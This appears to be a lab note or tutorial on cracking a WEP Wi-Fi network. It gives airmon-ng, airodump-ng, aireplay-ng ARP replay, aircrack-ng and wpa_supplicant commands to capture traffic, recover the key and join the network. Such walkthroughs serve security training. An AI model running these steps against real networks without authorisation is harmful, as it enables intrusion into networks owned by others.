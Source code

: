 ### Setup

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```


### Identify the network

Identify the network by launching an airodump scan:
```bash
sudo airodump-ng wlan0mon
sudo airodump-ng wlan0mon --wps
sudo airodump-ng wlan0mon --band abg --wps --manufacturer
```


### Gather IVs

Use the channel and BSSID from the previous command to dump traffic for the WEP AP.
```bash
sudo airodump-ng wlan0mon -c <channel> --bssid <BSSID> -w WEP 
```

Launch a deauthentication attack to create more network traffic, enter the channel and BSSID for the AP. Lastly use a valid MAC from one of the interfaces (wlan1 was used here). Around 10k packets are required before we can proceed to the next step:
```bash
sudo aireplay-ng -3 -b <BSSID> -h <MAC> wlan0mon

# E.g.
sudo aireplay-ng -3 -b F0:9F:C2:71:22:11 -h 02:00:00:00:01:00 wlan0mon
```


### Crack key

Use the cap file to crack the WEP key:
```bash
aircrack-ng WEP-01.cap
```


### Connect to the network

Start the NetworkManager service:
```bash
sudo service NetworkManager start
```

Set the interface up:
```bash
sudo ifconfig wlan1 up
```

Create the configuration file to connect to the network: `connect.config`
```bash
network={
  ssid="<ESSID>"
  key_mgmt=NONE
  # E.g. wep_key0=11BB33CD55
  wep_key0=<KEY>
  wep_tx_keyidx=0
}
```
>[!warning]
>Remove `:` when entering a hex key, use `""` when specifying an ASCII password

Use the configuration file to connect to the network:
```bash
sudo wpa_supplicant -i wlan1 -c connect.config
```

Obtain DHCP address:
```bash
sudo dhclient wlan1
```
